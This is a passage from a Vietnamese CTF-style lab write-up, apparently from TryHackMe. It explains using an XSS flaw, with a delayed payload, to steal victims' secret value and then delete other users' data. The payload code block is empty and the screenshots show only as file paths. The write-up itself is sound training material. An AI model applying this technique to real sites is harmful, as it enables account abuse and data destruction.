

Nhưng đây là key của ta nên không thể xóa ngày sinh của người khác, vì vậy bây giờ ta phải khai thác lỗ hổng XSS vừa phát hiện để lấy được `secret` của người dùng rồi mới bắt đầu xóa

Lab có gợi ý rằng nếu ta thực hiện gửi request luôn thì hàm khởi tạo secret có thể bị lỗi dẫn đến không nhận được secret của victim, vì vậy payload cần phải có một độ trễ nhất định

```js

```



Ta có thể thấy được request của 3 victim đều được gửi về và giá trị đều là `thisisthesupersecretvalue`

Ta thực hiện thay `secret` và thực hiện xóa người dùng



Sau khi thực hiện xóa xong tất cả những người dùng, ta thực hiện chuyển qua `http://lists.tryhackme.loc:5001/ping` để có thể nhận được flag




